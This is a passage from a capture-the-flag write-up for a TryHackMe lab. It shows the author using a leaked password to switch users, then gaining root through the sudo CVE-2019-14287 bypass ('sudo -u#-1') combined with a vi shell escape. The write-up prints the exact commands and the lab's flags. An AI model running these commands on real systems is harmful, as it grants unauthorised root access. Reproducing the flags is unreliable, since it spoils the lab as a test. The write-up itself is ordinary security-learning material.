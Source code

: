 I cat the message

```
Your password is awful, Gwendoline.                                                                                                                                                                                                         
It should be at least 60 characters long! Not just MniVCQVhQHUNI                                                                                                                                                                           
Honestly!                                                                               
Yours sincerely                                                                         
   -Root     
```

So I su to Gwendoline with the above password and I find my first flag
`THM{1107174691af9ff3681d2b5bdb5740b1589bae53}`


## Priv Esc

I sudo -l
```
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

I search online how to get root with vim on a file and I find this [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
and with this
### [](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#cve-2019-14287)CVE-2019-14287

```powershell
# Exploitable when a user have the following permissions (sudo -l)
(ALL, !root) ALL

# If you have a full TTY, you can exploit it like this
sudo -u#-1 /bin/bash
sudo -u#4294967295 id
```

I use `sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt`
then in type `:!/bin/sh` and I am root!
I get my flag `THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}`